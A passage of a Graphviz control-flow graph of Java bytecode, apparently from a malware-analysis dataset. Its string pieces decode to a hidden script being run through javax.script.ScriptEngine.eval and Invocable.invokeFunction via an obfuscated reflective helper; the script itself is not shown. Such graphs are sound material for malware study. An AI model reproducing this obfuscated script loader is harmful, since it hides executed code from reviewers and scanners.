    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hw27Ps\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hw27Ps\"";
    "push \"hw27Ps\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Kb26bFwv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Kb26bFwv\"";
    "push \"Kb26bFwv\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5Bf7LrB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5Bf7LrB\"";
    "push \"5Bf7LrB\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wp22Hc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wp22Hc\"";
    "push \"wp22Hc\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ur82Gc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ur82Gc\"";
    "push \"ur82Gc\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Cql93eET\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Cql93eET\"";
    "push \"Cql93eET\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"W5b6V6mv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"W5b6V6mv\"";
    "push \"W5b6V6mv\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"GF52eja\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"GF52eja\"";
    "push \"GF52eja\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b0NjB6d6Lv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b0NjB6d6Lv\"";
    "push \"b0NjB6d6Lv\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q657P6v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q657P6v\"";
    "push \"q657P6v\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Rm837Zm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Rm837Zm\"";
    "push \"Rm837Zm\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mq0361eeB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mq0361eeB\"";
    "push \"mq0361eeB\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"v4wg676WZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"v4wg676WZ\"";
    "push \"v4wg676WZ\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"f4525Agg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"f4525Agg\"";
    "push \"f4525Agg\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"y803d7hU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"y803d7hU\"";
    "push \"y803d7hU\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"W2T207M2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"W2T207M2\"";
    "push \"W2T207M2\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Pz468rr4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Pz468rr4\"";
    "push \"Pz468rr4\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PlP697dCj\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PlP697dCj\"";
    "push \"PlP697dCj\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HHS33MF32\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HHS33MF32\"";
    "push \"HHS33MF32\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qdb7ylc5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qdb7ylc5\"";
    "push \"Qdb7ylc5\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zA265bq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zA265bq\"";
    "push \"zA265bq\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tl74Wv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tl74Wv\"";
    "push \"tl74Wv\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aS757Yg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aS757Yg\"";
    "push \"aS757Yg\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sZ26ehKF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sZ26ehKF\"";
    "push \"sZ26ehKF\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ls20nW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ls20nW\"";
    "push \"Ls20nW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gs653yT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gs653yT\"";
    "push \"gs653yT\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Vkb7dJE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Vkb7dJE\"";
    "push \"Vkb7dJE\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <ddvscsrddjbsceqh: java.lang.String JPEUUBbW(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <ddvscsrddjbsceqh: java.lang.String JPEUUBbW(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <ddvscsrddjbsceqh: java.lang.String JPEUUBbW(java.lang.String)>"->"store.r r2";
    "store.r r2"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"pJMZVjayq\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"pJMZVjayq\"";
    "push \"pJMZVjayq\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pVvaxFvr2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pVvaxFvr2\"";
    "push \"pVvaxFvr2\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aP.scKC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aP.scKC\"";
    "push \"aP.scKC\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b4GriZ1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b4GriZ1\"";
    "push \"b4GriZ1\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"NZpt.y6GU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"NZpt.y6GU\"";
    "push \"NZpt.y6GU\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Jrc6ScrDp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Jrc6ScrDp\"";
    "push \"Jrc6ScrDp\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ewDEiptuFg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ewDEiptuFg\"";
    "push \"ewDEiptuFg\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"vDLEnMC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"vDLEnMC\"";
    "push \"vDLEnMC\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4kgiB8lU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4kgiB8lU\"";
    "push \"4kgiB8lU\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0FnesT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0FnesT\"";
    "push \"0FnesT\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"5PAWeveS\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"5PAWeveS\"";
    "push \"5PAWeveS\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E8alkb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E8alkb\"";
    "push \"E8alkb\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "load.r r2"
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"8kjavvE\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8kjavvE\"";
    "push \"8kjavvE\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6nax.tYA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6nax.tYA\"";
    "push \"6nax.tYA\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nsscC1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nsscC1\"";
    "push \"nsscC1\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"p0ripk5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"p0ripk5\"";
    "push \"p0ripk5\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"r0PGFt.Mb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"r0PGFt.Mb\"";
    "push \"r0PGFt.Mb\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BBInvSd8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BBInvSd8\"";
    "push \"BBInvSd8\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Tnocn0S\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Tnocn0S\"";
    "push \"Tnocn0S\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZrablaS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZrablaS\"";
    "push \"ZrablaS\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"amWNeWM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"amWNeWM\"";
    "push \"amWNeWM\""->"push 4";
    "push 4"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"8yinYAAW\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8yinYAAW\"";
    "push \"8yinYAAW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e1Avoyc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e1Avoyc\"";
    "push \"e1Avoyc\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JM8keFqz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JM8keFqz\"";
    "push \"JM8keFqz\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sM5QuncPC5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sM5QuncPC5\"";
    "push \"sM5QuncPC5\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LD0tiog0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LD0tiog0\"";
    "push \"LD0tiog0\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AwnvY\""
